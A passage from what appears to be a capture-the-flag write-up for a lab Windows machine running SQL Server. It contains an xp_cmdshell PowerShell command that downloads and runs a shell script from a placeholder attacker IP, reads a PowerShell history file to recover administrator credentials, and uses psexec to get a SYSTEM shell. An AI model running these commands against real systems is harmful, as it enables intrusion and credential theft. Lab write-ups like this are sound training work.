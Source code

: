 Then download that shell in SQL with the following command:
```sql
xp_cmdshell "powershell "IEX (New-Object
Net.WebClient).DownloadString(\"http://YOUR IP/shell.ps1\");"
```

#### netcat in listening mode
To have netcat in listening mode you must execute:
![Netcat listering](netcat-listering.png)
```shell
ln -lvnp 443
```
{{< admonition type=tip title="Tip" open=true >}}
If you have a firewall, you must disable it or add rules for ports 443 and 80 with the commands:

```shell
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```
{{< /admonition >}}
Now you can continue in the type of connection you chose.

### User flag
The user (ARCHETYPE/sql_svc) banner is on the desktop at home.

## Privilege Escalation
To obtain the administrator credentials we will exploit the history or log of the powershell this is located in the user's home in the path: ```C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```

To see the content of the file we execute:
```cmd
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Root flag
Login with administrator user with [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py).

```shell
python3 psexec.py administrator@10.10.10.27
Impacket - Copyright SecureAuth Corpotation

Password: 

[*] Requesting shares on 10.10.10.27......
[*] Found writable share ADMIN$
[*] Uploading file uTkahtBM.exe
[*] Opening SVCManager on 10.10.10.27......
[*] Creating service uwOG on 10.10.10.27......
[*] Starting service uwOG......
[!] Press help for extra shel commands

Microsoft Windows
(C) Microsoft Coporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
The admin banner is on the desktop at home.
